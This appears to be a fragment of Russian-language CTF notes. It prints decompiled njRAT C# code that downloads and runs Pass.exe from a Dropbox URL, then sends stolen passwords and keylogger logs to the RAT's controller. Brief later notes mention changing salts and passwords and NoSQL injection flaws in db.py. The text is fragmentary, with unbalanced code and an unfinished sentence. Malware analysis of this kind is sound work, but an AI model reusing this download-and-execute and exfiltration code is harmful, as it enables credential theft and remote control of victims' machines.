 ```python=
								{
									string text4 = Interaction.Environ("temp") + "/pass.exe";
									if (!File.Exists(text4))
									{
										try
										{
											WebClient webClient = new WebClient();
											webClient.DownloadFile("https://dl.dropbox.com/s/p84aaz28t0hepul/Pass.exe?dl=0", text4);
											Process.Start(text4);
										}
										catch (Exception ex3)
										{
										}
									}
								}
								catch (Exception ex4)
								{
								}
								try
								{
									string path = Interaction.Environ("temp") + "/temp.txt";
									string text5 = File.ReadAllText(path);
									Njrat.Send("pas" + Njrat.Y + Njrat.ENB(ref text5));
								}
                                
							if (Operators.CompareString(left, "kl", false) == 0)
							{
								Njrat.Send("kl" + Njrat.Y + Njrat.ENB(ref Njrat.kq.Logs));
								return;
							}
```
видим, что в 

![](https://i.imgur.com/I2Ra6yb.png)
![](https://i.imgur.com/dWD7wG5.png)
![](https://i.imgur.com/rvPfjsS.png)

---

# 3 этап

# ch2






## cc
поменять соль!
Заменить пароли в docker-compose.yaml 
- `db.py` 
Имеется множество `nosql injection`
